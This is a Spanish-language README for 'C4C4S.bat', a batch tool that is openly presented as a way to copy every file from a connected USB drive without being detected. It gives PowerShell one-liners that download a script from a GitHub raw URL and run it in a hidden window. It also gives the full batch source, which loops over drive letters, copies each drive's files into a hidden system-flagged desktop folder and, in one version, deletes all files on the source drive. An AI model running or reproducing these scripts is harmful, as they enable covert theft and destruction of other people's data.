 # C4C4S.bat / C4C4S.bat
<b>Esta es una herramienta para copiar todos los archivos de una memoria sin ser detectado.</b><br><br>
Escucha cuando se conecta un dispositivo de almacenamiento, despues copia los archivos del dispositivo conectado y tienes la opción de borrar los archivos despues de ser copiados.

<h2>Para copiar archivos de USB borrando los archivos de la memoria al finalizar, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4s.bat','c4.bat'); powershell -windowstyle hidden -command cmd /c call c4.bat;
</pre>

<h2>Para copiar archivos de USB sin modificar o borrar los archivos origen, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4.bat','c4.bat'); powershell -windowstyle hidden -command cmd /c call c4.bat;
</pre>

<h3>Para ver los archivos copiados...</h3>
<ul>
  <li>Abre una ventana del CMD.</li>
  <li>Ubicate en la carpeta: <b>C:\Users\%USERNAME%\Desktop\NCopy</b></li>
  <li>Abre la carpeta con: <b>start .</b></li>
</ul>

<h2>Codigo fuente</h2>

<h3>C4s :</h3>
<pre>
<code>
@echo off
setlocal EnableDelayedExpansion
:try
IF EXIST "C:\Users\"%USERNAME%"\Desktop\NCopy" (
 SET l="E:\" "F:\" "G:\" "M:\" "N:\" "D:\" "H:\" "I:\" "L:\" "O:\" "S:\" "U:\"
 FOR %%a in (%l%) DO (
  IF EXIST %%a (
   XCOPY %%a "C:\Users\"%USERNAME%"\Desktop\NCopy" /s /i /y /q
   DEL %%a"*" /s /q
  )
 )
) ELSE (
 MKDIR "C:\Users\"%USERNAME%"\Desktop\NCopy"
 ATTRIB "C:\Users\"%USERNAME%"\Desktop\NCopy" +r +h +s
)
goto try
</code>
</pre>

<h3>C4 :</h3>
<pre>
<code>
@echo off
setlocal EnableDelayedExpansion
:try
IF EXIST "C:\Users\"%USERNAME%"\Desktop\NCopy" (
 SET l="E:\" "F:\" "G:\" "M:\" "N:\" "D:\" "H:\" "I:\" "L:\" "O:\" "S:\" "U:\"
 FOR %%a in (%l%) DO (
  IF EXIST %%a (
   XCOPY %%a "C:\Users\"%USERNAME%"\Desktop\NCopy" /s /i /y /q
  )
 )
) ELSE (
 MKDIR "C:\Users\"%USERNAME%"\Desktop\NCopy"
 ATTRIB "C:\Users\"%USERNAME%"\Desktop\NCopy" +r +h +s
)
goto try
</code>
</pre>

